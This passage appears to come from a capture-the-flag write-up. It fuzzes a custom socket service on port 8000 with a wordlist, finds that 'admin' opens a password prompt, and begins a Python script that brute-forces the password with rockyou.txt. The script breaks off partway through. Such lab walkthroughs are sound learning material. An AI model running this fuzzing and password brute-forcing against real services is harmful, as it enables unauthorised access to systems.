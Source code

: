 The purpose of this script is to enumerate valid input values for the data variable in the custom socket-based service running on port 8000. It connects to the server, sends the keyword data, and then iteratively sends words from a wordlist to see how the server responds.

after running it and wait for a couple of minutes we get this 
```terminal
python3 fuzz.py
Trying: index → name 'index' is not defined
Trying: images → name 'images' is not defined
Trying: download → name 'download' is not defined
Trying: 2006 → 
Trying: news → name 'news' is not defined
Trying: crack → name 'crack' is not defined
Trying: serial → name 'serial' is not defined
Trying: warez → name 'warez' is not defined
Trying: full → name 'full' is not defined
Trying: 12 → 
Trying: contact → name 'contact' is not defined
Trying: about → name 'about' is not defined
Trying: search → name 'search' is not defined
Trying: spacer → name 'spacer' is not defined
Trying: privacy → name 'privacy' is not defined
Trying: 11 → 
Trying: logo → name 'logo' is not defined
Trying: blog → name 'blog' is not defined
Trying: new → name 'new' is not defined
.
.
.
Trying: advertising → name 'advertising' is not defined
Trying: tech → name 'tech' is not defined
Trying: welcome → name 'welcome' is not defined
Trying: admin → Start a fresh client to begin.

✅ Possible match found: admin
Server response: Start a fresh client to begin.
```
there we go the word 'admin' prompted a different output 
so let's try it in the netcat and see wnat do we get

```terminal
 nc 10.10.100.37 8000                                                   
admin
Password:
```
it prompt us for a password and none of the passwords we had works 
so we need to brute force it 
here is a script that does it:
```terminal
import socket
import time

IP = "10.10.100.37"
PORT = 8000
WORDLIST_PATH = "/usr/share/wordlists/rockyou.txt"  # Change to your preferred wordlist

def try_password(ip, port, password):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)
        s.connect((ip, port))

        # Send "admin"
        s.sendall(b"admin\n")
        time.sleep(0.5)
```